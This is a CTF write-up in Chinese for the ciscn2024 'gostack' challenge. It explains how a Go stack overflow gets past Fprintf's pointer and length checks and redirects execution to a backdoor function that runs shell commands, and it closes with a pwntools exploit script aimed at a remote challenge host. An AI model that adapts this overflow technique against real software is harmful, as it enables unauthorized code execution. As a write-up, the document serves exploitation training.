 ```yaml
---
title: ciscn2024 - gostack 
date: 2024/5/23 00:47:00
tags:
    - go
    - rop
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|go    |1.18.1|

## 解题思路

一道简单的go的栈溢出题

经测试，发现输入0x100个字符后就会报错非法内存访问，调试器跟一下，
发现原来`rbp - 0xc8`的位置上是一个go指针，随便填一个合法地址继续溢出写，
会报什么超出限制，发现`rbp - 0xc0`的位置上是一个较小的值，填0后继续溢出写，
就可以成功控制返回地址了

实际上错误都是由`Fprintf`引发的，第一次解引用了错误的地址，第二次覆盖了一个过大的`len`，
如图所示

![bypass](/assets/ciscn2024/bypass.png)

网上很多wp写rop的链子，很怪，程序不是提供了后门吗。。直接把返回地址修改成`&main.main.func2`，
就可以任意执行一个shell命令，输入`cat flag`就可以获得flag

![success](/assets/ciscn2024/success.png)
## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './gostack'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *0x4a09d8\nb *0x4a0a88\nc')
    else:
        sh = remote('8.147.132.179', 39522)
    backdoor = 0x4a05a0

    sh.sendline(b'0'*0x100 + p64(0xc000012040) + p64(0) + b'0'*0xc0 +
                p64(backdoor))

    sh.interactive()
```

